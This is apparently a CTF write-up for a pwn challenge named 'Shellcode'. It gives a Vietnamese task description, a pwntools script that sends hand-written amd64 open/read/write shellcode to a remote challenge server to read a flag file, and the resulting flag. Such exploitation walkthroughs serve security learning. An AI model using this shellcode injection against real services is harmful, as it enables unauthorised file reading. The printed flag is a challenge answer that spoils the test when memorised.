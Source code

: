 # **Shellcode - PWN CTF Challenge**

### ***Description***
> Dễ mà tự viết đi trên trên mạng không có đâu
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

### ***Exploitation***
---



```js
from pwn import *

#p = process('./shellcode')
r = remote('45.122.249.68', 10017)

shellcode = asm('\n'.join([
	'mov rbx, %d' % u64(b'.txt\x00\x00\x00\x00'),
	'push rbx',
	'mov rbx, %d' % u64(b'ongCoDon'),
	'push rbx',
	'mov rbx, %d' % u64(b'PhaPhaKh'),
	'push rbx', 
	'mov	rdi, rsp',		
	'mov	rsi, 0',
	'mov 	rdx, 0',	
	'mov	rax, 2',	
	'syscall',
	'mov	rdi, rax',
	'mov	rsi, rsp',
	'mov	rdx, 0x100',
	'mov 	rax, 0',
	'syscall',
	'mov	rdi, 1',
	'mov	rsi, rsp',
	'mov	rdx, rax',
	'mov 	rax, 1',
    'syscall',
]), arch='amd64', os='linux')

r.recvuntil(b'PhaPhaKhongCoDon.txt\n')
r.sendline(shellcode)
r.interactive()
```

![flag](images/flag.png)

> **FLAG: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**





